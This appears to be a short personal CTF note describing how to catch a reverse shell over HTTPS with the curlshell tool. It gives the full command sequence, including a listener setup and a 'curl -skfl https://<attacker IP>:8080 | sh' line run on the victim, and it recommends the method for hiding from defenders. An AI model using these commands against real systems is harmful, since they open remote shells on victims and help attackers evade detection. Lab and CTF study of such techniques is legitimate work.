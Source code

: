 
2025-10-24 19:01

Source: #CTF 

Tags: [[revshell]]

Different way of catching reverse connection from your target. This is using [[Tags/curl|curl]] shell which leverages HTTPS to tunnel the connection to your machine. 

[[netcat]] may not be installed or other traditional tools. Sometimes even the shell is different and you cannot just manipulate the device networking stack easily. If curl is installed, then you still have a chance to get a reverse connection.
### Setting up the shell

**On our system**

1. Clone this [repo](https://github.com/SkyperTHC/curlshell)

2. Since the connection will be encrypted, we need to generate a self-signed certificate. 
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

3. We can now run curl shell. 
```sh
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
We pass the certificate, the private key, and the port we want to listen on. 

**Then from the target**

we use curl to connect to our attacker IP and port.
```sh
curl -skfl https://172.16.117.99:8080 | sh
```
Don't forget about the HTTPS at the beginning. Lastly, we need to pipe this to a shell. 

Then you should see a successful call back from the attacker.
Another benefit of using curl shell is that your connections are encrypted. That means you can protect yourself from defenders. Aside from that, the process running inside the victim will look less suspicious compared to normal reverse shells.

### References
[Hiding your callback through HTTPS](https://www.youtube.com/watch?v=DBy2e6HrrD0)
